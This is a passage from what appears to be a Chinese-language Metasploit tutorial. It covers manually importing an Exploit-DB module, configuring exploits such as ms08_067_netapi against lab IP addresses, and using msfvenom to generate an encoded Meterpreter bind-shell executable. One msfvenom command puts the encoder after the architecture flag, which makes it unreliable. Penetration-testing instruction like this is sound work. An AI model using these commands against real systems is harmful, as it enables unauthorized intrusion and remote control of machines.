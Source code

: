 ### 手动导入

例如从Exploit-DB上下载webtest.rb后：

```bash
mkdir /root/.msf4/modules/exploits
cd /root/.msf4/modules/exploits
mkdir test
cd test/ #并放入webtest.rb
```

启动MSF后使用：

```
use exploit/test/webtest
set RHOST 192.168.29.141
```

## 攻击

加载与配置：

```
use exploit/test/webtest
show payloads
set payload php/exec
show options
set CMD dir
```

设置架构：

```
use exploit/windows/smb/ms08_067_netapi
show options
show targets
set target 2
```

设置编码：

```bash
msfvenom [options] <var=val>
    #-p 指定使用的Payload
    #-e 指定编码格式
    #-a 指定系统架构
    #-s 指定Payload最大值
    #-i 指定编码次数
    #-f 指定生成的文件格式

msfvenom -l encoders #查看支持的所有编码
msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.29.137 --platform windows -a x86/shikata_ga_nai -f exe > msf.exe
```

## 攻击范例
